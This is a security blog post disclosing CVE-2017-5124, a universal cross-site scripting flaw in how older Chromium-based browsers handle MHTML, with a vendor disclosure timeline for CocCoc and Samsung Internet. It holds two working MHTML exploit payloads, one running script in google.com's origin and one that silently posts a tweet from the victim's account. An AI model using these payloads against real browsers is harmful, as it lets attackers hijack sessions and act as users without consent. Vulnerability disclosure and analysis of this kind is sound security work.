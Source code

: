 ```yaml
---
layout: post
title: "Chromium Based Browsers are safe or not ? (English version)"
date: 2018-01-01 00:00:00.000000000 +07:00
type: post
published: true
status: publish
categories:
- Tutorials
tags:
- uxss
- chromium
excerpt: "n-day vulnerability in Chromium Based Browsers"
---
```

Original post: [https://develbranch.com/tutorials/chromium-based-browsers-are-safe-or-not.html](https://develbranch.com/tutorials/chromium-based-browsers-are-safe-or-not.html)


Recently, the Chromium open source browser (version 62 and below) has a very serious vulnerability. **UXSS with MHTML**, CVE-2017-5124. The exploit code has also been published: https://github.com/Bo0oM/CVE-2017-5124. 

## What is Universal Cross-site Scripting (UXSS)?
Cross-site scripting (XSS) (https://www.acunetix.com/websitesecurity/cross-site-scripting/) refers to client-side code injection attack wherein an attacker can execute malicious scripts (also commonly referred to as a malicious payload) into a legitimate website or web application. XSS is amongst the most rampant of web application vulnerabilities and occurs when a web application makes use of unvalidated or unencoded user input within the output it generates.

By leveraging XSS, an attacker does not target a victim directly. Instead, an attacker would exploit a vulnerability within a website or web application that the victim would visit, essentially using the vulnerable website as a vehicle to deliver a malicious script to the victim’s browser.

While XSS can be taken advantage of within VBScript, ActiveX and Flash (although now considered legacy or even obsolete), unquestionably, the most widely abused is JavaScript – primarily because JavaScript is fundamental to most browsing experiences.

Hackers use UXSS to access every open session of the browser: hackers can read the cookies or sessions of opened tabs.

# UXSS with MHTML (CVE-2017-5124)
This is a vulnerability in the Chromium when processing [MHTML (HTML)](https://en.wikipedia.org/wiki/MHTML).

MHTML is a text document with a title, content-type (multipart / related), and a content separator (boundary), encoding (can be base64).

In the description of html, we can use `Content-location` to determine the source of the data. For example, we write Content-location: https://example.com/abc, which will be loaded from https://example.com/abc and displayed.

For security reasons, all javascript related data is forbidden and can not be executed from another location. This rule is checked everywhere, except for [XSLT](https://en.wikipedia.org/wiki/XSLT).

```
MIME-Version: 1.0
Content-Type: multipart/related;
	type="text/html";
	boundary="----MultipartBoundary--"
CVE-2017-5124

------MultipartBoundary--
Content-Type: application/xml;

<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE catalog [
<!ATTLIST xsl:stylesheet
id ID #REQUIRED>
]>
<xsl:stylesheet id="stylesheet" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="*">
<html><iframe style="display:none" src="https://google.com"></iframe></html>
</xsl:template>
</xsl:stylesheet>

------MultipartBoundary--
Content-Type: text/html
Content-Location: https://google.com

<script>alert('Location origin: '+location.origin)</script>
------MultipartBoundary----
```

The hacker can run alert () with the https://google.com domain and display a messagebox indicating the location corresponds to the script's running script.

## Some scenarios using UXSS with MHTML (CVE-2017-5124)
We will approach some "real" scenarios:
 * Hack email: Bad guys can read emails, send mail with the user's email address without their knowledge. Bank accounts are usually associated with an email address. If the email is compromised, the hacker will be able to read the account recovery codes or notifications from the bank, send fake emails or use this email to attack.
 * Hackers can read and post posts under user accounts. I will use my Twitter account for testing.
 
The exploit code will tweet a message with the user's Twitter account.

```
MIME-Version: 1.0
Content-Type: multipart/related;
	type="text/html";
	boundary="----MultipartBoundary--"
Become IDOL

------MultipartBoundary--
Content-Type: application/xml;

<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xml" href="#stylesheet"?>
<!DOCTYPE catalog [
<!ATTLIST xsl:stylesheet
id ID #REQUIRED>
]>
<xsl:stylesheet id="stylesheet" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="*">
<html><iframe style="display:none" src="https://twitter.com" ></iframe></html>
</xsl:template>
</xsl:stylesheet>

------MultipartBoundary--
Content-Type: text/html
Content-Location: https://twitter.com

<script>

function tweet(text)
{
    var win = window.open("/", '_blank', 'toolbar=no,status=no,menubar=no,scrollbars=no,resizable=no,left=10000, top=10000, width=2, height=1, visible=none', '');
	win.onload = function(){
	        win.boxTextToTweet = win.document.getElementById("tweet-box-home-timeline");
			win.btnPostTweet = win.document.getElementsByClassName("tweet-action EdgeButton EdgeButton--primary js-tweet-btn")[0];
			win.boxTextToTweet.focus();
			win.boxTextToTweet.innerHTML = text;
			setTimeout(function(){ win.btnPostTweet.click(); }, 500);
			setTimeout(function(){ win.close(); }, 1500);
	}
}

tweet('I <3 fosec. @quangnh89 is my idol.');

</script>
------MultipartBoundary----
```

I have attacked CocCoc (66) and SamSung Internet browser.

Demo with CocCoc 66:

[![UXSS with MHTML (CVE-2017-5124) + CocCoc browser 66.4.134](https://img.youtube.com/vi/oBZe2-dtfGI/0.jpg)](https://www.youtube.com/watch?v=oBZe2-dtfGI)


## The browsers are affected by CVE-2017-5124
All browsers that use the Chromium (Chrome < 62) are affected. CocCoc version 66.4.134, a popular browser in Vietnam, which uses Chromium 60.4.3112.134 is vulnerable. Some browsers on SamSung phones made by the manufacturer itself can be exploited. Personally, for security purposes, we can temporarily stop using the browser until the problem is solved.

## Timeline
_Coc Coc Browser_
 * 05/12/2017: contacted CocCoc Company.
 * 06/12/2017: Coc Coc Company confirmed.
Currently, the latest version of CocCoc has been fixed.

_SamSung Internet Browser 6.2.01.12_ 
 * 03/12/2017: Send email to SamSung Company
 * 08/12/2017: SamSung thinks that this issue belongs to Google Chrome.

 
According to my tests, the browser SamSung Internet Browser 6.2.01.12 suffered a serious vulnerability. If your phone is not up to date, wait for a patch. Demo with SamSung internet: https://www.youtube.com/watch?v=nLPuplN5HmM

[![UXSS with MHTML (CVE-2017-5124) + SamSung Internet Browser 6.2.01.12](https://img.youtube.com/vi/nLPuplN5HmM/0.jpg)](https://www.youtube.com/watch?v=nLPuplN5HmM)
